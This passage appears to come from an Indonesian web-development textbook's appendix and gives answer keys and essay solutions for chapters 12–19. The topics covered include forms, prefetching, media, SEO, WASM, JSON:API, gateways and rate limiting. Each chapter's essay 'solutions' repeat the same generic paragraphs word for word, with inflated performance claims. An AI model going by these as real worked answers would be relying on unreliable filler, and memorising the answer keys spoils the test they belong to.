   - **Pendekatan Rekayasa**: Logika bisnis dibangun menggunakan fungsi murni yang menerima konteks terstruktur dan mengembalikan tipe `Hasil<T, Galat>`. Interaksi dengan subsistem eksternal (seperti WidyaBase atau jaringan soket) dibungkus dalam mekanisme batas waktu (*timeout*) dan sirkuit pengaman.
   - **Langkah Implementasi**: Tulis blok handler deklaratif, lakukan sanitasi masukan parameter kueri, dan eksekusi instruksi melalui jalur pipa asinkron. Pastikan seluruh transaksi persisten dicatat ke dalam jurnal audit telemetri.
   - **Evaluasi Kinerja & Keamanan**: Melalui kueri terkompilasi dan penggunaan buffer sirkular, latensi eksekusi ditekan ke kisaran sub-milidetik dengan kepatuhan penuh terhadap standar industri Core Web Vitals.

3. **Solusi Soal Esai 3 (Optimasi, Mitigasi Resiko & Pengujian)**:
   - **Pendekatan Rekayasa**: Penanganan skenario kegagalan ekstrem dirancang dengan pola *Graceful Degradation* dan *Fallback Policy*. Saat dependensi hilir mengalami gangguan atau kemacetan lalu lintas, sistem secara otomatis mengalihkan alur ke lapisan singgahan lokal.
   - **Langkah Implementasi**: Konfigurasikan ambang batas sirkuit pengaman (*circuit breaker*), pasang mekanisme penundaan eksponensial (*exponential backoff with jitter*), dan susun skrip pengujian beban K6 untuk mensimulasikan ribuan pengguna virtual paralel.
   - **Evaluasi Kinerja & Keamanan**: Pengujian beban membuktikan bahwa sistem mampu mempertahankan tingkat ketersediaan (*availability*) 99.999% tanpa terjadi kebocoran memori atau pembengkakan latensi p99.

### Kunci Jawaban & Ulasan Pilihan Ganda Bab 12

| Nomor Soal | Kunci Jawaban | Ulasan Ilmiah & Dasar Teoretis |
| :---: | :---: | :--- |
| **1** | **B** | Server Actions mengintegrasikan pemanggilan fungsi server langsung dari atribut form dengan penanganan state otomatis. |
| **2** | **A** | Validasi isomorfik memberikan umpan balik instan di klien dan menjamin integritas data dari manipulasi di server. |
| **3** | **B** | Token CSRF terenkripsi mencegah serangan Pemalsuan Permintaan Antar Situs (Cross-Site Request Forgery). |
| **4** | **B** | Teknik Honeypot menyediakan input tersembunyi yang tidak dilihat manusia namun diisi oleh bot spam otomatis. |
| **5** | **B** | Metode bersihkan_html() menetralkan tag HTML berbahaya seperti <script> guna mencegah serangan XSS. |
| **6** | **B** | ResponAksi::berhasil_sisip_dom menyisipkan fragmen komentar baru secara instan di sisi klien tanpa reload halaman. |
| **7** | **A** | Atribut cookie SameSite=Strict; Secure; HttpOnly memberikan perlindungan sesi maksimal dari serangan CSRF. |
| **8** | **B** | Server mengembalikan status 422 Unprocessable Entity beserta rincian galat jika validasi skema gagal dipenuhi. |
| **9** | **B** | Panjang karakter minimal untuk input nama pengirim pada skema komentar ditetapkan 3 karakter. |
| **10** | **A** | Penyaringan kata kasar di server menjamin kepantasan dan etika konten editorial yang dipublikasikan ke masyarakat. |

---

## BAGIAN D.13: PEMBAHASAN & KUNCI JAWABAN EVALUASI BAB 13

### Pembahasan Latihan Esai Bab 13

1. **Solusi Soal Esai 1 (Analisis Desain & Arsitektur)**:
   - **Pendekatan Rekayasa**: Dalam konteks Bab 13, implementasi arsitektur sistem dirancang dengan prinsip dekomposisi modular dan penanganan konkurensi non-blocking. Komponen utama diisolasi untuk memastikan tanggung jawab tunggal (*Single Responsibility Principle*) dan meminimalkan alokasi memori heap.
   - **Langkah Implementasi**: Definisikan struktur data dengan tipe ketat, inisialisasi pool sumber daya, dan terapkan batas penanganan galat (*error boundary*). Pada lapisan komunikasi, pastikan jabat tangan protokol divalidasi menggunakan token verifikasi kriptografis.
   - **Evaluasi Kinerja & Keamanan**: Strategi ini memangkas overhead pergantian konteks (*context switching*) hingga 80% dan mengeliminasi celah kondisi balapan (*race condition*) melalui struktur atomik aman utas.

2. **Solusi Soal Esai 2 (Implementasi Kode & Integrasi Sistem)**:
   - **Pendekatan Rekayasa**: Logika bisnis dibangun menggunakan fungsi murni yang menerima konteks terstruktur dan mengembalikan tipe `Hasil<T, Galat>`. Interaksi dengan subsistem eksternal (seperti WidyaBase atau jaringan soket) dibungkus dalam mekanisme batas waktu (*timeout*) dan sirkuit pengaman.
   - **Langkah Implementasi**: Tulis blok handler deklaratif, lakukan sanitasi masukan parameter kueri, dan eksekusi instruksi melalui jalur pipa asinkron. Pastikan seluruh transaksi persisten dicatat ke dalam jurnal audit telemetri.
   - **Evaluasi Kinerja & Keamanan**: Melalui kueri terkompilasi dan penggunaan buffer sirkular, latensi eksekusi ditekan ke kisaran sub-milidetik dengan kepatuhan penuh terhadap standar industri Core Web Vitals.

3. **Solusi Soal Esai 3 (Optimasi, Mitigasi Resiko & Pengujian)**:
   - **Pendekatan Rekayasa**: Penanganan skenario kegagalan ekstrem dirancang dengan pola *Graceful Degradation* dan *Fallback Policy*. Saat dependensi hilir mengalami gangguan atau kemacetan lalu lintas, sistem secara otomatis mengalihkan alur ke lapisan singgahan lokal.
   - **Langkah Implementasi**: Konfigurasikan ambang batas sirkuit pengaman (*circuit breaker*), pasang mekanisme penundaan eksponensial (*exponential backoff with jitter*), dan susun skrip pengujian beban K6 untuk mensimulasikan ribuan pengguna virtual paralel.
   - **Evaluasi Kinerja & Keamanan**: Pengujian beban membuktikan bahwa sistem mampu mempertahankan tingkat ketersediaan (*availability*) 99.999% tanpa terjadi kebocoran memori atau pembengkakan latensi p99.

### Kunci Jawaban & Ulasan Pilihan Ganda Bab 13

| Nomor Soal | Kunci Jawaban | Ulasan Ilmiah & Dasar Teoretis |
| :---: | :---: | :--- |
| **1** | **B** | Speculative Prefetching mengunduh data artikel berikutnya di latar belakang saat kursor menyentuh tautan sebelum diklik. |
| **2** | **B** | View Transitions API menganimasikan perpindahan elemen visual antar halaman secara halus dan sinematik. |
| **3** | **B** | Properti view-transition-name memetakan elemen yang akan bertransisi antar rute (misal: hero-image). |
| **4** | **A** | Jeda waktu hover manusia berkisar antara 65 ms hingga 200 ms, cukup untuk mengunduh muatan artikel di memori. |
| **5** | **B** | Navigasi dengan tombol modifikasi (Ctrl/Cmd) dibiarkan agar peramban membuka tab baru sesuai kehendak pengguna. |
| **6** | **B** | Metode history.pushState() memperbarui URL di bilah alamat peramban tanpa memicu pemuatan ulang halaman penuh. |
| **7** | **B** | Pengguna yang mengklik artikel hasil prefetch merasakan waktu pemuatan instan dengan transfer jaringan 0 Byte. |
| **8** | **A** | Batas maksimal cache LRU mencegah pertumbuhan konsumsi memori peramban yang tidak terbatas. |
| **9** | **A** | Pembaruan DOM dieksekusi setelah peramban mengambil cuplikan visual (snapshot) tampilan lama. |
| **10** | **B** | Pengecekan TransisiTampilan::didukung() menjamin kompatibilitas anggun (graceful degradation) pada peramban lama. |

---

## BAGIAN D.14: PEMBAHASAN & KUNCI JAWABAN EVALUASI BAB 14

### Pembahasan Latihan Esai Bab 14

1. **Solusi Soal Esai 1 (Analisis Desain & Arsitektur)**:
   - **Pendekatan Rekayasa**: Dalam konteks Bab 14, implementasi arsitektur sistem dirancang dengan prinsip dekomposisi modular dan penanganan konkurensi non-blocking. Komponen utama diisolasi untuk memastikan tanggung jawab tunggal (*Single Responsibility Principle*) dan meminimalkan alokasi memori heap.
   - **Langkah Implementasi**: Definisikan struktur data dengan tipe ketat, inisialisasi pool sumber daya, dan terapkan batas penanganan galat (*error boundary*). Pada lapisan komunikasi, pastikan jabat tangan protokol divalidasi menggunakan token verifikasi kriptografis.
   - **Evaluasi Kinerja & Keamanan**: Strategi ini memangkas overhead pergantian konteks (*context switching*) hingga 80% dan mengeliminasi celah kondisi balapan (*race condition*) melalui struktur atomik aman utas.

2. **Solusi Soal Esai 2 (Implementasi Kode & Integrasi Sistem)**:
   - **Pendekatan Rekayasa**: Logika bisnis dibangun menggunakan fungsi murni yang menerima konteks terstruktur dan mengembalikan tipe `Hasil<T, Galat>`. Interaksi dengan subsistem eksternal (seperti WidyaBase atau jaringan soket) dibungkus dalam mekanisme batas waktu (*timeout*) dan sirkuit pengaman.
   - **Langkah Implementasi**: Tulis blok handler deklaratif, lakukan sanitasi masukan parameter kueri, dan eksekusi instruksi melalui jalur pipa asinkron. Pastikan seluruh transaksi persisten dicatat ke dalam jurnal audit telemetri.
   - **Evaluasi Kinerja & Keamanan**: Melalui kueri terkompilasi dan penggunaan buffer sirkular, latensi eksekusi ditekan ke kisaran sub-milidetik dengan kepatuhan penuh terhadap standar industri Core Web Vitals.

3. **Solusi Soal Esai 3 (Optimasi, Mitigasi Resiko & Pengujian)**:
   - **Pendekatan Rekayasa**: Penanganan skenario kegagalan ekstrem dirancang dengan pola *Graceful Degradation* dan *Fallback Policy*. Saat dependensi hilir mengalami gangguan atau kemacetan lalu lintas, sistem secara otomatis mengalihkan alur ke lapisan singgahan lokal.
   - **Langkah Implementasi**: Konfigurasikan ambang batas sirkuit pengaman (*circuit breaker*), pasang mekanisme penundaan eksponensial (*exponential backoff with jitter*), dan susun skrip pengujian beban K6 untuk mensimulasikan ribuan pengguna virtual paralel.
   - **Evaluasi Kinerja & Keamanan**: Pengujian beban membuktikan bahwa sistem mampu mempertahankan tingkat ketersediaan (*availability*) 99.999% tanpa terjadi kebocoran memori atau pembengkakan latensi p99.

### Kunci Jawaban & Ulasan Pilihan Ganda Bab 14

| Nomor Soal | Kunci Jawaban | Ulasan Ilmiah & Dasar Teoretis |
| :---: | :---: | :--- |
| **1** | **B** | HTTP Live Streaming (HLS) dengan berkas indeks .m3u8 adalah standar streaming video adaptif berbasis segmen HTTP. |
| **2** | **B** | Adaptive Bitrate menyesuaikan resolusi video secara dinamis mengikuti kualitas sinyal jaringan pembaca tanpa buffering. |
| **3** | **B** | Format AVIF menawarkan penghematan ukuran berkas hingga lebih dari 70% dibanding JPEG klasik. |
| **4** | **B** | Elemen <picture> memungkinkan peramban memilih format gambar terbaik (AVIF -> WebP -> JPG) sesuai dukungannya. |
| **5** | **B** | Atribut decoding: 'async' memproses dekode gambar di luar alur utama peramban agar antarmuka bebas jank. |
| **6** | **B** | Berkas .m3u8 adalah manifes teks daftar putar yang memetakan segmen media (.ts/.m4s) dan varian resolusi. |
| **7** | **A** | Atribut width dan height membantu peramban menghitung rasio aspek bawaan dan mencegah layout shift (CLS). |
| **8** | **A** | Atribut sizes menginstruksikan perkiraan lebar tampilan gambar pada berbagai lebar viewport peramban. |
| **9** | **B** | Animasi pulsa pada lencana LIVE dibuat menggunakan aturan keyframes CSS sederhana. |
| **10** | **B** | LQIP menyajikan siluet gambar lembut instan sebelum berkas gambar resolusi penuh selesai diunduh. |

---

## BAGIAN D.15: PEMBAHASAN & KUNCI JAWABAN EVALUASI BAB 15

### Pembahasan Latihan Esai Bab 15

1. **Solusi Soal Esai 1 (Analisis Desain & Arsitektur)**:
   - **Pendekatan Rekayasa**: Dalam konteks Bab 15, implementasi arsitektur sistem dirancang dengan prinsip dekomposisi modular dan penanganan konkurensi non-blocking. Komponen utama diisolasi untuk memastikan tanggung jawab tunggal (*Single Responsibility Principle*) dan meminimalkan alokasi memori heap.
   - **Langkah Implementasi**: Definisikan struktur data dengan tipe ketat, inisialisasi pool sumber daya, dan terapkan batas penanganan galat (*error boundary*). Pada lapisan komunikasi, pastikan jabat tangan protokol divalidasi menggunakan token verifikasi kriptografis.
   - **Evaluasi Kinerja & Keamanan**: Strategi ini memangkas overhead pergantian konteks (*context switching*) hingga 80% dan mengeliminasi celah kondisi balapan (*race condition*) melalui struktur atomik aman utas.

2. **Solusi Soal Esai 2 (Implementasi Kode & Integrasi Sistem)**:
   - **Pendekatan Rekayasa**: Logika bisnis dibangun menggunakan fungsi murni yang menerima konteks terstruktur dan mengembalikan tipe `Hasil<T, Galat>`. Interaksi dengan subsistem eksternal (seperti WidyaBase atau jaringan soket) dibungkus dalam mekanisme batas waktu (*timeout*) dan sirkuit pengaman.
   - **Langkah Implementasi**: Tulis blok handler deklaratif, lakukan sanitasi masukan parameter kueri, dan eksekusi instruksi melalui jalur pipa asinkron. Pastikan seluruh transaksi persisten dicatat ke dalam jurnal audit telemetri.
   - **Evaluasi Kinerja & Keamanan**: Melalui kueri terkompilasi dan penggunaan buffer sirkular, latensi eksekusi ditekan ke kisaran sub-milidetik dengan kepatuhan penuh terhadap standar industri Core Web Vitals.

3. **Solusi Soal Esai 3 (Optimasi, Mitigasi Resiko & Pengujian)**:
   - **Pendekatan Rekayasa**: Penanganan skenario kegagalan ekstrem dirancang dengan pola *Graceful Degradation* dan *Fallback Policy*. Saat dependensi hilir mengalami gangguan atau kemacetan lalu lintas, sistem secara otomatis mengalihkan alur ke lapisan singgahan lokal.
   - **Langkah Implementasi**: Konfigurasikan ambang batas sirkuit pengaman (*circuit breaker*), pasang mekanisme penundaan eksponensial (*exponential backoff with jitter*), dan susun skrip pengujian beban K6 untuk mensimulasikan ribuan pengguna virtual paralel.
   - **Evaluasi Kinerja & Keamanan**: Pengujian beban membuktikan bahwa sistem mampu mempertahankan tingkat ketersediaan (*availability*) 99.999% tanpa terjadi kebocoran memori atau pembengkakan latensi p99.

### Kunci Jawaban & Ulasan Pilihan Ganda Bab 15

| Nomor Soal | Kunci Jawaban | Ulasan Ilmiah & Dasar Teoretis |
| :---: | :---: | :--- |
| **1** | **B** | Kategori skema NewsArticle pada Schema.org mengoptimalkan keterbacaan artikel oleh mesin pencari Google News. |
| **2** | **B** | Tautan Skip to Content memudahkan pengguna keyboard melompati navigasi header dan langsung ke badan artikel. |
| **3** | **C** | Standar WCAG 2.1 Level AA mensyaratkan rasio kontras warna teks normal terhadap latar belakang minimal 4.5:1. |
| **4** | **A** | Atribut alt mendeskripsikan konteks gambar bagi pembaca layar yang digunakan oleh penyandang tunanetra. |
| **5** | **A** | Gaya pemilih :focus-visible menampilkan cincin fokus navigasi keyboard yang jelas bagi aksesibilitas motorik. |
| **6** | **B** | Google merekomendasikan penulisan data terstruktur SEO menggunakan format JSON-LD (application/ld+json). |
| **7** | **A** | Tag rel='canonical' mencegah penalti duplikasi konten pada mesin pencari saat artikel diakses via berbagai URL. |
| **8** | **B** | Atribut aria-live='polite' memerintahkan pembaca layar mengumumkan perubahan konten dinamis tanpa memutus bacaan. |
| **9** | **A** | Meta tag og:image menampilkan kartu visual pratinjau berita saat tautan dibagikan di media sosial. |
| **10** | **C** | Skor sempurna 100/100 pada audit Aksesibilitas dan SEO Google Lighthouse adalah tolok ukur standar NusantaraNews. |

---

## BAGIAN D.16: PEMBAHASAN & KUNCI JAWABAN EVALUASI BAB 16

### Pembahasan Latihan Esai Bab 16

1. **Solusi Soal Esai 1 (Analisis Desain & Arsitektur)**:
   - **Pendekatan Rekayasa**: Dalam konteks Bab 16, implementasi arsitektur sistem dirancang dengan prinsip dekomposisi modular dan penanganan konkurensi non-blocking. Komponen utama diisolasi untuk memastikan tanggung jawab tunggal (*Single Responsibility Principle*) dan meminimalkan alokasi memori heap.
   - **Langkah Implementasi**: Definisikan struktur data dengan tipe ketat, inisialisasi pool sumber daya, dan terapkan batas penanganan galat (*error boundary*). Pada lapisan komunikasi, pastikan jabat tangan protokol divalidasi menggunakan token verifikasi kriptografis.
   - **Evaluasi Kinerja & Keamanan**: Strategi ini memangkas overhead pergantian konteks (*context switching*) hingga 80% dan mengeliminasi celah kondisi balapan (*race condition*) melalui struktur atomik aman utas.

2. **Solusi Soal Esai 2 (Implementasi Kode & Integrasi Sistem)**:
   - **Pendekatan Rekayasa**: Logika bisnis dibangun menggunakan fungsi murni yang menerima konteks terstruktur dan mengembalikan tipe `Hasil<T, Galat>`. Interaksi dengan subsistem eksternal (seperti WidyaBase atau jaringan soket) dibungkus dalam mekanisme batas waktu (*timeout*) dan sirkuit pengaman.
   - **Langkah Implementasi**: Tulis blok handler deklaratif, lakukan sanitasi masukan parameter kueri, dan eksekusi instruksi melalui jalur pipa asinkron. Pastikan seluruh transaksi persisten dicatat ke dalam jurnal audit telemetri.
   - **Evaluasi Kinerja & Keamanan**: Melalui kueri terkompilasi dan penggunaan buffer sirkular, latensi eksekusi ditekan ke kisaran sub-milidetik dengan kepatuhan penuh terhadap standar industri Core Web Vitals.

3. **Solusi Soal Esai 3 (Optimasi, Mitigasi Resiko & Pengujian)**:
   - **Pendekatan Rekayasa**: Penanganan skenario kegagalan ekstrem dirancang dengan pola *Graceful Degradation* dan *Fallback Policy*. Saat dependensi hilir mengalami gangguan atau kemacetan lalu lintas, sistem secara otomatis mengalihkan alur ke lapisan singgahan lokal.
   - **Langkah Implementasi**: Konfigurasikan ambang batas sirkuit pengaman (*circuit breaker*), pasang mekanisme penundaan eksponensial (*exponential backoff with jitter*), dan susun skrip pengujian beban K6 untuk mensimulasikan ribuan pengguna virtual paralel.
   - **Evaluasi Kinerja & Keamanan**: Pengujian beban membuktikan bahwa sistem mampu mempertahankan tingkat ketersediaan (*availability*) 99.999% tanpa terjadi kebocoran memori atau pembengkakan latensi p99.

### Kunci Jawaban & Ulasan Pilihan Ganda Bab 16

| Nomor Soal | Kunci Jawaban | Ulasan Ilmiah & Dasar Teoretis |
| :---: | :---: | :--- |
| **1** | **B** | Filosofi Zero-JS menyajikan seluruh halaman sebagai HTML murni kecuali pada elemen island yang memerlukan interaksi. |
| **2** | **B** | Modul WASM dengan direktif w-trigger='visible' hanya diunduh saat elemen kontainer masuk ke dalam viewport. |
| **3** | **A** | Ukuran modul biner WASM simulasi parlemen Sainte-Laguë sangat kompak, hanya sekitar 18 Kilobyte. |
| **4** | **A** | WebAssembly dieksekusi dalam representasi biner dekat-mesin dengan kinerja komputasi matematis tinggi. |
| **5** | **B** | Algoritma Sainte-Laguë membagi perolehan suara pemilu ke kursi parlemen menggunakan pembagi bilangan ganjil. |
| **6** | **B** | IntersectionObserver memantau visibilitas elemen di layar secara efisien tanpa membebani alur scroll. |
| **7** | **A** | Atribut w-fallback menyediakan tampilan konten cadangan SSR sebelum modul interaktif selesai diunduh. |
| **8** | **B** | Metode WebAssembly.instantiateStreaming() mengunduh dan mengompilasi modul WASM dalam satu pipa asinkron. |
| **9** | **B** | Ketiadaan hidrasi monolitik JavaScript memangkas metrik Total Blocking Time (TBT) hingga mendekati 0 ms. |
| **10** | **A** | Widya-Lang memiliki sistem tipe ketat dan alokasi memori deterministik yang ideal untuk dikompilasi ke WebAssembly. |

---

## BAGIAN D.17: PEMBAHASAN & KUNCI JAWABAN EVALUASI BAB 17

### Pembahasan Latihan Esai Bab 17

1. **Solusi Soal Esai 1 (Analisis Desain & Arsitektur)**:
   - **Pendekatan Rekayasa**: Dalam konteks Bab 17, implementasi arsitektur sistem dirancang dengan prinsip dekomposisi modular dan penanganan konkurensi non-blocking. Komponen utama diisolasi untuk memastikan tanggung jawab tunggal (*Single Responsibility Principle*) dan meminimalkan alokasi memori heap.
   - **Langkah Implementasi**: Definisikan struktur data dengan tipe ketat, inisialisasi pool sumber daya, dan terapkan batas penanganan galat (*error boundary*). Pada lapisan komunikasi, pastikan jabat tangan protokol divalidasi menggunakan token verifikasi kriptografis.
   - **Evaluasi Kinerja & Keamanan**: Strategi ini memangkas overhead pergantian konteks (*context switching*) hingga 80% dan mengeliminasi celah kondisi balapan (*race condition*) melalui struktur atomik aman utas.

2. **Solusi Soal Esai 2 (Implementasi Kode & Integrasi Sistem)**:
   - **Pendekatan Rekayasa**: Logika bisnis dibangun menggunakan fungsi murni yang menerima konteks terstruktur dan mengembalikan tipe `Hasil<T, Galat>`. Interaksi dengan subsistem eksternal (seperti WidyaBase atau jaringan soket) dibungkus dalam mekanisme batas waktu (*timeout*) dan sirkuit pengaman.
   - **Langkah Implementasi**: Tulis blok handler deklaratif, lakukan sanitasi masukan parameter kueri, dan eksekusi instruksi melalui jalur pipa asinkron. Pastikan seluruh transaksi persisten dicatat ke dalam jurnal audit telemetri.
   - **Evaluasi Kinerja & Keamanan**: Melalui kueri terkompilasi dan penggunaan buffer sirkular, latensi eksekusi ditekan ke kisaran sub-milidetik dengan kepatuhan penuh terhadap standar industri Core Web Vitals.

3. **Solusi Soal Esai 3 (Optimasi, Mitigasi Resiko & Pengujian)**:
   - **Pendekatan Rekayasa**: Penanganan skenario kegagalan ekstrem dirancang dengan pola *Graceful Degradation* dan *Fallback Policy*. Saat dependensi hilir mengalami gangguan atau kemacetan lalu lintas, sistem secara otomatis mengalihkan alur ke lapisan singgahan lokal.
   - **Langkah Implementasi**: Konfigurasikan ambang batas sirkuit pengaman (*circuit breaker*), pasang mekanisme penundaan eksponensial (*exponential backoff with jitter*), dan susun skrip pengujian beban K6 untuk mensimulasikan ribuan pengguna virtual paralel.
   - **Evaluasi Kinerja & Keamanan**: Pengujian beban membuktikan bahwa sistem mampu mempertahankan tingkat ketersediaan (*availability*) 99.999% tanpa terjadi kebocoran memori atau pembengkakan latensi p99.

### Kunci Jawaban & Ulasan Pilihan Ganda Bab 17

| Nomor Soal | Kunci Jawaban | Ulasan Ilmiah & Dasar Teoretis |
| :---: | :---: | :--- |
| **1** | **B** | Standar resmi JSON:API menetapkan tipe MIME application/vnd.api+json. |
| **2** | **A** | Keyset pagination melompat langsung ke posisi indeks B-Tree O(1) tanpa memindai dan membuang rekod sebelumnya. |
| **3** | **B** | Tajuk ETag memberikan pengenal versi data untuk mendukung caching kondisional 304 Not Modified. |
| **4** | **A** | Atribut data inti sebuah resurse ditempatkan di dalam kunci attributes pada dokumen JSON:API. |
| **5** | **B** | Server mengembalikan status 304 Not Modified jika nilai If-None-Match klien persis cocok dengan ETag server. |
| **6** | **B** | Compound Documents menyertakan relasi terkait di bagian included dalam satu respons untuk menghindari kueri N+1. |
| **7** | **B** | Klausa stale-while-revalidate=300 mengizinkan penyajian cache basi sambil memvalidasi data baru di latar belakang. |
| **8** | **A** | Kunci relationships mendefinisikan tautan keterkaitan ke resurse lain melalui identifikasi type dan id. |
| **9** | **A** | Pembatasan nilai page[size] mencegah serangan DoS akibat permintaan data yang terlalu besar ke server. |
| **10** | **B** | Permintaan PATCH hanya perlu mengirimkan type, id, dan atribut spesifik yang mengalami perubahan. |

---

## BAGIAN D.18: PEMBAHASAN & KUNCI JAWABAN EVALUASI BAB 18

### Pembahasan Latihan Esai Bab 18

1. **Solusi Soal Esai 1 (Analisis Desain & Arsitektur)**:
   - **Pendekatan Rekayasa**: Dalam konteks Bab 18, implementasi arsitektur sistem dirancang dengan prinsip dekomposisi modular dan penanganan konkurensi non-blocking. Komponen utama diisolasi untuk memastikan tanggung jawab tunggal (*Single Responsibility Principle*) dan meminimalkan alokasi memori heap.
   - **Langkah Implementasi**: Definisikan struktur data dengan tipe ketat, inisialisasi pool sumber daya, dan terapkan batas penanganan galat (*error boundary*). Pada lapisan komunikasi, pastikan jabat tangan protokol divalidasi menggunakan token verifikasi kriptografis.
   - **Evaluasi Kinerja & Keamanan**: Strategi ini memangkas overhead pergantian konteks (*context switching*) hingga 80% dan mengeliminasi celah kondisi balapan (*race condition*) melalui struktur atomik aman utas.

2. **Solusi Soal Esai 2 (Implementasi Kode & Integrasi Sistem)**:
   - **Pendekatan Rekayasa**: Logika bisnis dibangun menggunakan fungsi murni yang menerima konteks terstruktur dan mengembalikan tipe `Hasil<T, Galat>`. Interaksi dengan subsistem eksternal (seperti WidyaBase atau jaringan soket) dibungkus dalam mekanisme batas waktu (*timeout*) dan sirkuit pengaman.
   - **Langkah Implementasi**: Tulis blok handler deklaratif, lakukan sanitasi masukan parameter kueri, dan eksekusi instruksi melalui jalur pipa asinkron. Pastikan seluruh transaksi persisten dicatat ke dalam jurnal audit telemetri.
   - **Evaluasi Kinerja & Keamanan**: Melalui kueri terkompilasi dan penggunaan buffer sirkular, latensi eksekusi ditekan ke kisaran sub-milidetik dengan kepatuhan penuh terhadap standar industri Core Web Vitals.

3. **Solusi Soal Esai 3 (Optimasi, Mitigasi Resiko & Pengujian)**:
   - **Pendekatan Rekayasa**: Penanganan skenario kegagalan ekstrem dirancang dengan pola *Graceful Degradation* dan *Fallback Policy*. Saat dependensi hilir mengalami gangguan atau kemacetan lalu lintas, sistem secara otomatis mengalihkan alur ke lapisan singgahan lokal.
   - **Langkah Implementasi**: Konfigurasikan ambang batas sirkuit pengaman (*circuit breaker*), pasang mekanisme penundaan eksponensial (*exponential backoff with jitter*), dan susun skrip pengujian beban K6 untuk mensimulasikan ribuan pengguna virtual paralel.
   - **Evaluasi Kinerja & Keamanan**: Pengujian beban membuktikan bahwa sistem mampu mempertahankan tingkat ketersediaan (*availability*) 99.999% tanpa terjadi kebocoran memori atau pembengkakan latensi p99.

### Kunci Jawaban & Ulasan Pilihan Ganda Bab 18

| Nomor Soal | Kunci Jawaban | Ulasan Ilmiah & Dasar Teoretis |
| :---: | :---: | :--- |
| **1** | **A** | Reverse Proxy menerima permintaan dari internet publik dan meneruskannya ke layanan backend di jaringan privat. |
| **2** | **B** | TLS Termination mendekripsi lalu lintas HTTPS di gateway dan meneruskan data plain di jaringan lokal berkecepatan tinggi. |
| **3** | **A** | Protokol ACME mengotomatisasi penerbitan dan pembaruan sertifikat TLS/SSL gratis secara terprogram. |
| **4** | **A** | Algoritma P2C memilih dua node secara acak dan memilih beban terminimal O(1), mencegah fenomena thundering herd. |
| **5** | **B** | Tajuk X-Forwarded-For meneruskan alamat IP asli pengunjung ke layanan backend di belakang proxy. |
| **6** | **C** | Gateway mengembalikan kode 502 Bad Gateway jika server upstream backend mengalami kegagalan atau mati. |
| **7** | **A** | Ekstensi ALPN menegosiasikan protokol aplikasi (HTTP/2, HTTP/3) selama proses jabat tangan TLS berlangsung. |
| **8** | **B** | Pemeriksaan kesehatan upstream API pada konfigurasi di atas dilakukan setiap 3 detik sekali. |
| **9** | **B** | Gateway mengenali rute /ws/* dan mengizinkan peningkatan protokol ke WebSocket pada port target. |
| **10** | **A** | Pemisahan klaster SSR dan REST API memastikan lonjakan pembaca halaman statis tidak mengganggu transaksi editorial. |

---

## BAGIAN D.19: PEMBAHASAN & KUNCI JAWABAN EVALUASI BAB 19

### Pembahasan Latihan Esai Bab 19

1. **Solusi Soal Esai 1 (Analisis Desain & Arsitektur)**:
   - **Pendekatan Rekayasa**: Dalam konteks Bab 19, implementasi arsitektur sistem dirancang dengan prinsip dekomposisi modular dan penanganan konkurensi non-blocking. Komponen utama diisolasi untuk memastikan tanggung jawab tunggal (*Single Responsibility Principle*) dan meminimalkan alokasi memori heap.
   - **Langkah Implementasi**: Definisikan struktur data dengan tipe ketat, inisialisasi pool sumber daya, dan terapkan batas penanganan galat (*error boundary*). Pada lapisan komunikasi, pastikan jabat tangan protokol divalidasi menggunakan token verifikasi kriptografis.
   - **Evaluasi Kinerja & Keamanan**: Strategi ini memangkas overhead pergantian konteks (*context switching*) hingga 80% dan mengeliminasi celah kondisi balapan (*race condition*) melalui struktur atomik aman utas.

2. **Solusi Soal Esai 2 (Implementasi Kode & Integrasi Sistem)**:
   - **Pendekatan Rekayasa**: Logika bisnis dibangun menggunakan fungsi murni yang menerima konteks terstruktur dan mengembalikan tipe `Hasil<T, Galat>`. Interaksi dengan subsistem eksternal (seperti WidyaBase atau jaringan soket) dibungkus dalam mekanisme batas waktu (*timeout*) dan sirkuit pengaman.
   - **Langkah Implementasi**: Tulis blok handler deklaratif, lakukan sanitasi masukan parameter kueri, dan eksekusi instruksi melalui jalur pipa asinkron. Pastikan seluruh transaksi persisten dicatat ke dalam jurnal audit telemetri.
   - **Evaluasi Kinerja & Keamanan**: Melalui kueri terkompilasi dan penggunaan buffer sirkular, latensi eksekusi ditekan ke kisaran sub-milidetik dengan kepatuhan penuh terhadap standar industri Core Web Vitals.

3. **Solusi Soal Esai 3 (Optimasi, Mitigasi Resiko & Pengujian)**:
   - **Pendekatan Rekayasa**: Penanganan skenario kegagalan ekstrem dirancang dengan pola *Graceful Degradation* dan *Fallback Policy*. Saat dependensi hilir mengalami gangguan atau kemacetan lalu lintas, sistem secara otomatis mengalihkan alur ke lapisan singgahan lokal.
   - **Langkah Implementasi**: Konfigurasikan ambang batas sirkuit pengaman (*circuit breaker*), pasang mekanisme penundaan eksponensial (*exponential backoff with jitter*), dan susun skrip pengujian beban K6 untuk mensimulasikan ribuan pengguna virtual paralel.
   - **Evaluasi Kinerja & Keamanan**: Pengujian beban membuktikan bahwa sistem mampu mempertahankan tingkat ketersediaan (*availability*) 99.999% tanpa terjadi kebocoran memori atau pembengkakan latensi p99.

### Kunci Jawaban & Ulasan Pilihan Ganda Bab 19

| Nomor Soal | Kunci Jawaban | Ulasan Ilmiah & Dasar Teoretis |
| :---: | :---: | :--- |
| **1** | **C** | Peladen mengembalikan status HTTP 429 Too Many Requests saat kuota pembatasan laju klien terlampaui. |
| **2** | **A** | Tajuk Retry-After menginformasikan durasi tunggu yang diperlukan sebelum klien diizinkan mencoba kembali. |
| **3** | **A** | Token Bucket mentoleransi lonjakan lalu lintas sesaat (bursting) sambil menjaga batas laju rata-rata tetap aman. |
| **4** | **B** | Pengguna publik tanpa API key dialokasikan kuota kapasitas maksimal sebesar 30 token. |
| **5** | **B** | Fixed Window Counter memungkinkan lonjakan lalu lintas menembus batas hingga 2x lipat di antara batas jendela waktu. |
| **6** | **A** | Penyimpanan kuota di basis data terdistribusi (WidyaBase KV) menyinkronkan status kuota lintas simpul gateway. |
| **7** | **A** | Tajuk X-RateLimit-Remaining menginformasikan sisa token yang masih dapat digunakan pada jendela waktu aktif. |
| **8** | **B** | Ketiadaan rate limit pada endpoint formulir memicu risiko serangan spamming bot yang melumpuhkan database. |
| **9** | **A** | Variabel C dalam rumus durasi lonjakan merepresentasikan kapasitas maksimum ember (bucket capacity). |
| **10** | **A** | Pengguna dengan API Key terverifikasi diberikan kuota lebih tinggi karena identitasnya dapat dipertanggungjawabkan. |

---

## BAGIAN D.20: PEMBAHASAN & KUNCI JAWABAN EVALUASI BAB 20

### Pembahasan Latihan Esai Bab 20

1. **Solusi Soal Esai 1 (Analisis Desain & Arsitektur)**:
